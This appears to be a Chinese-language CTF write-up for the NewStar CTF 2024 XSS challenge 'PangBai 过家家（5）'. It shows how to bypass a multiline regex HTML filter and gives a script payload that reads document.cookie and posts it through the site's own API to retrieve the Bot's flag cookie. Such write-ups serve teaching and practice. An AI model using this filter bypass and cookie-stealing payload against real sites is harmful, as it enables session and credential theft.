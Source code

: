 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# PangBai 过家家（5）

<Container type="info">

本题已开源，关于题目源码和 EXP，详见：[cnily03-hive/PangBai-XSS](https://github.com/cnily03-hive/PangBai-XSS)
</Container>

这是一题 XSS 题。XSS 题目的典型就是有一个 Bot，flag 通常就在这个 Bot 的 Cookie 里面。

XSS 的全称是跨站脚本攻击，存在这种攻击方式的原因是，用户访问到的网页内容并不是服务端期望的那样，可能存在恶意的代码。例如，你点击一个网页链接，但是它却执行了攻击者的前端 JavaScript 代码，将你的登录凭据、隐私信息发送给攻击者。在 XSS 题中，Bot 就承担这个受害者用户。

题目有一个发件的路由，还有一个查看信件的路由，以及一个「提醒 PangBai」的按钮，这个按钮实际就是让 Bot 访问查看当前信件的路由。

我们要做的就是找到一处能够展示我们的输入的地方，想办法使内容展示之后，浏览器能够执行我们恶意的 JavaScript 代码。这样，如果让 Bot 去访问这个 URL，恶意代码就会在 Bot 的浏览器执行，我们的恶意代码可以执行获取 Cookie 等操作。

从 `bot.ts` 可见，FLAG 在 Cookie 中：

```typescript
await page.setCookie({
  name: "FLAG",
  value: process.env["FLAG"] || "flag{test_flag}",
  httpOnly: false,
  path: "/",
  domain: "localhost:3000",
  sameSite: "Strict",
});
```

我们直接输入 `<script>alert(1)</script>` 做测试，访问查看信件的界面，查看源码，发现输入被过滤了。

跟踪附件中的后端源码，`page.ts` 中的 `/box/:id` 路由，会渲染我们的输入：

```typescript
router.get("/box/:id", async (ctx, next) => {
  const letter = Memory.get(ctx.params["id"]);
  await ctx.render("letter", <TmplProps>{
    page_title: "PangBai 过家家 (5)",
    sub_title: "查看信件",
    id: ctx.params["id"],
    hint_text: HINT_LETTERS[Math.floor(Math.random() * HINT_LETTERS.length)],
    data: letter
      ? {
          title: safe_html(letter.title),
          content: safe_html(letter.content),
        }
      : { title: TITLE_EMPTY, content: CONTENT_EMPTY },
    error: letter ? null : "找不到该信件",
  });
});
```

但是输入的内容都经过了 `safe_html` 过滤

```typescript
function safe_html(str: string) {
  return str
    .replace(/<.*>/gim, "")
    .replace(/<\.*>/gim, "")
    .replace(/<.*>.*<\/.*>/gim, "");
}
```

可见这只是一个正则替换，正则中各个标志的作用：

- `i` 标志：忽略大小写
- `g` 标志：全局匹配，找到所有符合条件的内容
- `m` 标志：多行匹配，每次匹配时按行进行匹配，而不是对整个字符串进行匹配<span data-desc>（与之对应的是 `s` 标志，表示单行模式，将换行符看作字符串中的普通字符）</span>

由于 `m` 的存在，匹配开始为行首，匹配结束为行尾，因此我们只需要把 `<` 和 `>` 放在不同行即可，例如：

```javascript
<script>alert(1)</script>
```

此时我们就能执行恶意代码了。直接使用 `document.cookie` 即可获取到 Bot 的 Cookie。
拿到 Cookie 之后，怎么回显呢？如果题目靶机是出网的，可以发送到自己的服务器上面；但是题目靶机并不出网，这时可以写一个 JavaScript 代码，模拟用户操作，将 Cookie 作为一个信件的内容提交（让 Bot 写信），这样我们就能查看到了。例如：

```javascript
<script
>
fetch('/api/send', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({'title': "Cookie", 'content': document.cookie})
})
</script
>
```

:::warning 注意

`fetch` 中的请求路径可以是相对路径、绝对路径等，因此上面忽略了 Origin，如果显示指定，必须和当前的 Origin 一样，否则存在跨域问题。从 bot.ts 中可以看到 Bot 访问的是 `http://localhost:3000`，因此使用 `http://127.0.0.1:3000` 是不行的。

把 Payload 提交之后，如果手动查看信件并点击「提醒 PangBai」，会触发两次 Payload，一次是你自己查看信件时触发的，一次是 Bot 触发的。

:::

提交并「提醒 PangBai」之后，稍等一会，查看信箱，就可以看到内容了。

![查看 flag_1](/assets/images/wp/2024/week5/pangbai5_1.png)

![查看 flag_2](/assets/images/wp/2024/week5/pangbai5_2.png)

